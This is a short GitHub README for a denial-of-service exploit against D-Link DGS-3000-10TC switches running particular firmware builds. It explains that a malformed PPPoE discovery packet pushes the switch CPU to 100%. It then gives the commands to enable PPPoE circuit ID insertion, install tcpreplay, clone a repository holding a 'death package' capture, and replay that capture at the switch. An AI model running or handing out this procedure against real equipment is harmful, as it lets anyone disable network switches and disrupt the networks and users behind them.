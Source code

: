 # kill-dlink-DGS-3000-10TC-

Initial data:

DGS-3000-10TC
Firmware: Build 4.18.B007
Boot PROM Version          : Build 2.00.001
Firmware Version           : Build 2.05.B009
Hardware Version           : A2
(or Build 2.05.B008)

When a broken pppoed packet comes to the switch - cpu 100% 

1. Enable the function on the switch. The goal is for the switch processor to accept pppoed.
    globally:
    
    	config pppoe circuit_id_insertion state enable
	
     and on any port:
     
     	config pppoe circuit_id_insertion ports 1 state enable
	
2. Install tcpreplay

	for example in debian:
	
	apt install tcpreplay

3. Get a death package

    [git clone https://github.com/MakselPr/kill-dlink-DGS-3000-10TC.git
    

4. Run the command:

     cd kill-dlink-DGS-3000-10TC
     
     tcpreplay  -i eth1 death_package.pcap
     
	where eth1 this is the network card connected to the switch



Thank you.
